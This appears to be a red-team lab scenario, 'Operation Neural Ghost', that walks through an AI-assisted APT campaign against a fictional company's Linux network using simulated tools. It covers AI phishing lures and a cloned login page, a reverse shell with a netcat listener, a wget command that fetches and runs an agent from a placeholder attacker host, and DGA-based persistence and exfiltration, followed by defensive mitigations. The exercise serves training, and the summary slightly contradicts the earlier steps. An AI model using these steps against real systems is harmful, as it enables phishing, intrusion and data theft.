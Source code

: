 # Operation Neural Ghost

Objective: Act as an APT actor (`APT-99`, "Deep Vector") to leverage AI and machine learning for reconnaissance, vulnerability discovery, phishing, and adaptive command-and-control, specifically targeting MycoSec's Linux-based research network.

Scenario: MycoSec's "Cortex" lab network uses standard security tools (firewalls, IDS, basic SIEM). Your goal is to use AI to bypass these defenses, find novel attack paths, and maintain stealthy persistence.

## Phase 1: AI-Assisted Reconnaissance & OSINT

Goal: Use AI to automate target discovery and vulnerability mapping.

Instructions:

1.  Deploy AI Recon Tool:
    *   On your attacker VM, launch the AI-powered reconnaissance tool `DarkTrace` (simulated for the lab).
    *   Command: `python3 darktrace_ai.py --target-domain myco.sec --output scan_results.json`
    *   This tool uses NLP to scrape public sources (GitHub, social media) for employee names, tech stacks, and potential leaks.

2.  Analyze Results with AI:
    *   The tool generates a report. Use an AI summarizer to extract key insights.
    *   Command: `python3 ai_analyzer.py --input scan_results.json --query "top 3 potential vulnerabilities"`
    *   Finding: The AI identifies:
        *   A developer mentioning a "test API" on an internal subdomain: `api-dev.myco.sec:8080`
        *   A old password pattern used in testing environments: `MycoDev[Year]!`
        *   The use of `Jenkins` for CI/CD at `jenkins.myco.sec`

3.  Probe Targets with AI-Generated Scans:
    *   Use an AI tool to generate polymorphic network scans that evade signature-based IDS.
    *   Command: `python3 ai_scanner.py --target api-dev.myco.sec --stealth-mode high`
    *   Finding: The scan reveals the API is running a vulnerable version of `FastAPI` with a known RCE (CVE-2023-xxxx).

Checkpoint: AI has identified a high-value target and a specific vulnerability.

## Phase 2: AI-Powered Social Engineering

Goal: Use a Generative AI to create a highly convincing phishing campaign.

Instructions:

1.  Generate Phishing Lure:
    *   Use a tailored LLM (e.g., a simulated internal tool `PhishGPT`) to craft a phishing email.
    *   Command: `python3 phishgpt.py --template "internal_alert" --target-role "developer" --output phishing_email.html`
    *   The AI generates an email pretending to be from "MycoSec IT Security" urging the developer to reset their password due to a false incident on the `api-dev` server.

2.  Deploy Credential Harvesting:
    *   The AI also generates a flawless clone of the MycoSec SSO login portal.
    *   Command: `deploy_phish_page --url https://myco-sec-login[.]xyz`
    *   Send the phishing email to targets identified in Phase 1.

3.  AI-Powered Interaction:
    *   Use an AI chatbot to handle victim interactions on the phishing site, answering questions to increase legitimacy.
    *   Command: `python3 ai_chatbot.py --port 8443 --persona "IT_Helpdesk"`

Checkpoint: AI has automated the creation and deployment of a highly convincing phishing campaign.

## Phase 3: AI-Enhanced Initial Access

Goal: Use AI to automate exploitation and initial payload delivery.

Instructions:

1.  Generate Polymorphic Payload:
    *   Use an AI tool to create a reverse shell payload that evades static AV analysis by mutating its code signature each time it's generated.
    *   Command: `python3 ai_payload_gen.py --payload linux_reverse_shell --lhost <ATTACKER_IP> --lport 4444 --output payload.py`
    *   Verification: The generated `payload.py` has a unique hash that does not appear on any virus scanning platform.

2.  Exploit the API Automatically:
    *   Use an AI exploitation framework to automatically weaponize the CVE against the `api-dev` server.
    *   Command: `python3 ai_exploit_framework.py --target http://api-dev.myco.sec:8080 --cve CVE-2023-xxxx --payload payload.py`
    *   Success: The framework successfully exploits the vulnerability and executes the payload.

3.  Catch the Shell:
    *   On your attacker VM, receive the reverse shell connection.
    *   Command: `nc -nvlp 4444`
    *   Verification: You have a shell on the `api-dev` server.

Checkpoint: AI has successfully exploited the target and established a foothold.

## Phase 4: Autonomous Lateral Movement

Goal: Use an AI agent to autonomously explore the network and pivot.

Instructions:

1.  Deploy AI Lateral Movement Agent:
    *   Upload and execute the `DeepExplorer` AI agent on the compromised host.
    *   Command (on target): `wget http://<ATTACKER_IP>/DeepExplorer.py && python3 DeepExplorer.py --mode autonomous`
    *   This agent will automatically:
        *   Map the local network
        *   Sniff credentials from memory
        *   Attempt to SSH to other machines using stolen keys or credentials
        *   Identify misconfigured services

2.  Review AI Findings:
    *   The agent reports its findings to your C2 server. Check the dashboard.
    *   Finding: The AI has discovered:
        *   SSH private key in a world-readable `/opt/scripts/` directory on another host (`data-server-03`).
        *   A `sudo` misconfiguration on `data-server-03` allowing the `devuser` to run `vim` as root.

3.  AI-Selected Pivot:
    *   The AI recommends pivoting to `data-server-03` as it is the most critical and vulnerable target. It automatically uses the stolen key to establish a SSH session.
    *   Verification: The AI agent reports: `[+] Successfully pivoted to host: data-server-03`

Checkpoint: An AI agent has autonomously moved laterally to a critical server.

## Phase 5: Adaptive Command & Control

Goal: Use AI to maintain stealthy C2 communication that adapts to network conditions.

Instructions:

1.  AI-Powered C2 Channel:
    *   The `DeepExplorer` agent establishes a C2 channel that uses AI to mimic legitimate network traffic (e.g., mimicking cloud provider API calls or DNS lookups).
    *   Command: The agent auto-selects the best exfiltration method based on network egress rules.

2.  Exfiltrate Data with AI:
    *   The AI identifies and exfiltrates target files from `data-server-03`. It encrypts and chunks the data, embedding it in what looks like normal HTTP traffic.
    *   Finding: The AI reports: `[+] Exfiltration of /opt/research/project_cobalt.tar.gz complete.`

3.  AI-Driven Persistence:
    *   The AI agent chooses the best persistence mechanism based on the environment.
    *   Action: It creates a systemd service on `data-server-03` that uses a domain generation algorithm (DGA) to call home, making it hard to blacklist.

Final Report: The AI system provides a full summary report. Document the key findings:
1.  Initial Vector: AI-driven recon found a vulnerable API endpoint and developer credentials.
2.  Lateral Movement Path: AI autonomously moved from `api-dev` to `data-server-03` via a stolen SSH key.
3.  Privilege Escalation: The AI identified and exploited a `sudo` misconfiguration on the final target.
4.  Exfiltration Method: AI chose DNS tunneling for C2 and exfiltration to avoid triggering firewall alerts.

Mitigations:
1.  Behavioral Analysis: Deploy EDR/NDR that uses its own AI to detect anomalous process chains and network flows, not just signatures.
2.  Zero Trust: Implement strict network segmentation and application allow-listing to limit lateral movement.
3.  AI-Powered Defense: Use defensive AI (like Darktrace or Vectra) to detect the low-and-slow, polymorphic network traffic generated by the attack AI.
4.  User Training: Conduct regular phishing exercises focused on identifying AI-generated content.
5. 
